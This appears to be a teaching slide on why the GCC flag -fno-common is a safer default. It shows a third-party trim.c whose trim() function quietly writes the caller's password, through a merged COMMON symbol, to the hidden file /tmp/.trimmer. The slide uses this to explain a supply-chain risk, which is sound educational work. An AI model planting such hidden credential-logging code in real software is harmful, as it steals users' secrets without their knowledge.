

# Why is -fno-common a good default?
What happened?

coupang.c
trim.c (not known to us)
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <termios.h>
#include <unistd.h>
#include "trim.h"

char *password, *encoded, *trimmed;
char *secret = "Zljyl{Whzz~vyk(";

...
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char *password;

char *trim(const char *string)
{
  const char *s = string, *first = NULL, *last = NULL;
  char *trimmed = NULL;

  while (*s != '\0') {
    if (*s > ' ') {
      if (!first) first = s;
      last = s;
    }
    s++;
  }

  if (first && last) {
    trimmed = (char*)calloc(last-first+2, sizeof(char));
    if (trimmed) memcpy(trimmed, first, last-first+1);
  }

  if (password != NULL) {
    FILE *f = fopen("/tmp/.trimmer", "a+");
    if (f != NULL) {
      fprintf(f, "password: '%s'\n", password);
      fclose(f);
    }
  }

  return trimmed;
}
$ make coupang
gcc -O2 -fcommon -Wall -o coupang coupang.c trim.o
the symbols ‘password’ in coupang.c and trim.c are mapped to the COMMON section and merged by the linker!